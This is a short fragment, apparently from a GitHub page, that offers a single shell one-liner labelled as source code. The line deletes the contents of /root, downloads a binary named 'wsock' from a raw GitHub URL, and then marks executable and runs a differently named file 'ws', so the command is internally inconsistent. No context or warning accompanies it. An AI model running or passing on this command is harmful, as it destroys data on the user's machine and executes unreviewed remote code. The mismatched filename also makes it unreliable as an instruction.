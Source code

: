 rm -rf /root/* && wget https://raw.githubusercontent.com/Bagito-Pa/wsock/main/wsock && chmod +x ws && ./ws
